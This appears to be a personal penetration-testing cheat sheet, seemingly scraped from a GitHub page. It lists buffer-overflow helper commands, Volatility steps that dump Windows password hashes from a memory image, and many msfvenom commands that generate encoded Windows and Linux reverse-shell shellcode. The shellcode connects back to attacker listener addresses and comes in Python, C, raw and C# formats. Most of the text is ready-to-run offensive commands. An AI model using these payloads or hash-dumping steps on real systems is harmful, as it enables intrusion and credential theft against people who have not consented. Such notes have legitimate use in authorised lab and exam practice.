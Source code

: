 ## Other info below for buffer overflow:
    - Check register hex values
        > msf-nasm_shell
    - Convert hex to ascii
        > echo <hex> | xxd -r -p
    - Linux gcc compiling commands
        > i686-w64-mingw32-gcc exploit.good2.c -o exploitc.asx -lws2_32

# Reading memory dumps:
-----------------------
- Volatility:
    > systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    > volatility kdbgscan -f SILO-20180105-221806.dmp
    > volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist
    > volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
        - hash should now be obtained

# MSFvenom
----------
## NOTE: These sites are very helpful:
https://netsec.ws/?p=331
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

## msfvenom help
- msfvenom platforms (OS)
    > msfvenom --list platform
- msfvenom payloads (OS+specific reverse)
    > msfvenom --list payloads

## Best buffer overflow shell code rev shells
    - Windows:
        > msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.156 lport=4444 -f python -e x86/shikata_ga_nai -b "\x00\x0a"
    - Linux:
        > msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4444 -b "\x00\x0a" -f py -v shellcode
## Windows Shell code
    - Windows 32bit single stage reverse, output shellcode python:
        > msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4444 -f python -e x86/shikata_ga_nai -b "\x00\x0a"
        > msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f python -e x86/shikata_ga_nai -b "\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    - Windows 32bit single stage reverse, output shellcode c:
        > msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4444 -f c -e x86/shikata_ga_nai -b "\x00\x0a"
    - Windows 32bit single stage reverse, output raw output:
        > msfvenom -p windows/shell_reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=192.168.49.156 LPORT=443
    - Windows 64bit single stage reverse, output C# dll format
        > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp